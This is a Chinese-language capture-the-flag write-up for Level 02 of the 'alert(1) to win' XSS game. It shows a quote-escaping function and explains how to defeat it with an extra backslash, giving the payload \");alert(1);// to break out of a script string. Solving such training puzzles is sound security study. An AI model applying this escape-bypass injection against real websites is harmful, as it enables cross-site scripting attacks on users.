 ## [[alert(1) to win](https://alf.nu/alert1)] [[Level 02 - Adobe](https://alf.nu/alert1)] [[解题报告](https://exp-blog.com/safe/ctf/alert/level-02-adobe/)]

------

## 题目

```javascript
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

------

## 解题报告

由于所有 `"` 都被转义为 `\"` ，导致无法直接闭合函数。

但是不能直接闭合，不等于无法闭合。

因为只是转义了双引号 `"` ，没有转义反斜杠 `\` ，那么我们只需要再输入一个反斜杠去吃掉转义双引号的反斜杠，那么双引号就得以保留，并用来闭合函数了。

于是可以构造 payload 如下 （此处没有闭合后半段的双引号，而是通过行注释 `//` 屏蔽掉）：

```javascript
\");alert(1);//
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/alert/Level%2002%20-%20Adobe/imgs/01.png)


------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

